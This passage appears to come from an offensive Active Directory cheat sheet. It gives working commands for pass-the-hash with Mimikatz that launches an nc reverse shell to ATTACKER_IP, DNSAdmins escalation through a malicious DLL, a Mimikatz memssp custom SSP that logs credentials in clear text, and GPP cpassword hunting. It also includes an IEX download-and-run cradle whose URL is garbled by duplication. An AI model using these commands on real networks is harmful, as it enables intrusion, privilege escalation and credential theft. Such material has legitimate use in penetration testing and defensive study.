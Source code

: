 PTH

```
token::revert
sekurlsa::pth /user:fcastle /domain:GEMY.local /ntlm:2b576acbe6bcfda7294d6bd18041b8fe /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
// To receive the reverse shell
nc -lvp 5555
```

### DNS-Admins Abuse

```
// Enumerate the members of the DNSAdmins group
// PowerView
Get-NetGroupMember -GroupName "DNSAdmins"

// AD Module
Get-ADGroupMember -Identiny DNSAdmins

// Once we found a member of this group we need to compromise it
// serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges
// Using dnscmd:
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll

// Restart the DNS Service:
sc \\DNSServer stop dns
sc \\DNSServer start dns
```

### Custom SSP

use the `mimilib.dll` binary provided by Mimikatz

```
// From cmd
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
// then
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
// From mimikatz
privilege::debug
misc::memssp
// And after a reboot all credentials can be found in clear text in `C:\Windows\System32\kiwissp.log`
```


### GPP Credentials

If the domain controller 2012 or before, it's GPP that uses AES vulnerable encryption to store password on GPO Sysvol file.

```
// To Search manual for the passwords
findstr /S /I cpassword \\domain.local\sysvol\domain.local\policies\*.xml

//Download GPPPasswords.ps1 script on Powershell
IEX(New-Object Net.WebClient).downloaddString('https://github.com/PowerShellMafia/PowerSplohttps://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1it/blob/master/Exfiltration/Get-GPPPassword.ps1')

// To use the script to find passwords
Get-GPPPassword
```
